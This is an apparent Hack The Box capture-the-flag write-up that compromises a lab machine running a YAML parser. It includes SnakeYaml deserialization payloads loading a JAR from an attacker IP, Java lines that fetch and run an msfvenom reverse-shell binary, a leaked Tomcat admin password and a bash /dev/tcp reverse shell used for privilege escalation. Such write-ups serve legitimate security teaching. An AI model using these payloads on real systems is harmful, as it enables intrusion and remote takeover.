# Box 




https://www.hackthebox.eu/home/machines/profile/315

# Profile

  

https://www.hackthebox.eu/home/users/profile/296177

# Table of contents

* [Reconnaissance](#Reconnaissance)
* [Exploitation](#exploitation)
* [Post-Exploitation](#post-exploitation)
  + [User](#user)
  + [Root](#root)

# Contents 

## Reconnaissance

Let's start with nmap :

```bash
nmap -sV -sC -Pn --top-ports 1000 -oN scan_10.10.10.227 10.10.10.227
```



Let's what we have on the website : 



An online Yaml parser.  When you type anything you have a page with an error : 



Then, let's intercept  the request  with burp: 



I changed the `data=value` to something else like `test=value` and got an error : 



## Exploitation

By searching for "yaml stream reader exploit" I found an exploit for SnakeYaml Deserilization  : 

https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858

I modified their payload to : 

```java
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.17/"]
  ]]
]
```

and it works ! 



Let's try to get a RCE.

After a few tries I didn't get a RCE right away so I used another method. 

I used this repo : https://github.com/artsploit/yaml-payload

It took me a long time to find the good RCE but finally I created a payload with msfvenom and then downloaded and executed it in 3 lines :

```java
Runtime.getRuntime().exec("wget http://10.10.14.17/rev_shell.elf -O /tmp/test");
Runtime.getRuntime().exec("chmod +x /tmp/rev_shell.elf");
Runtime.getRuntime().exec("/tmp/rev_shell.elf");
```

the payload  for the website input is a bit different : 

```java
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.17/yaml-payload.jar"]
  ]]
]
```




We are the tomcat user

## Post-Exploitation

### User

I went forward to the configurations files of tomcat and found the `tomcat-users.xml` in `/opt/tomcat/conf/`  file with the credential of admin 



```bash
admin:whythereisalimit
```



### Root

Let's do the traditional `sudo -l`:



So, we have a script used in sudo. 



First, let's run it. 



We have an error so it does mean that in the if condition `f != 1` 

We can see that there are multiple place where there is no absolute path. 

With this link  https://webassembly.github.io/wabt/demo/wasm2wat/index.html  you can upload your `main.wasm` file and see what's inside : 



In our script we need a value equal to 1 so let's change `  (i32.const 0))` to `  (i32.const 1))` 

Now you can paste your new code and download your new main.wasm here : 

https://webassembly.github.io/wabt/demo/wat2wasm/index.html

Upload the file, and run your sudo command. 



Seems good. Now we can also see that's the `deploy.sh` file doesn't have an absolute path. Let's create our own script. 

```bash
#!/bin/bash
bash -c 'exec bash -i &>/dev/tcp/10.10.14.17/1234 <&1'
```



Rooted.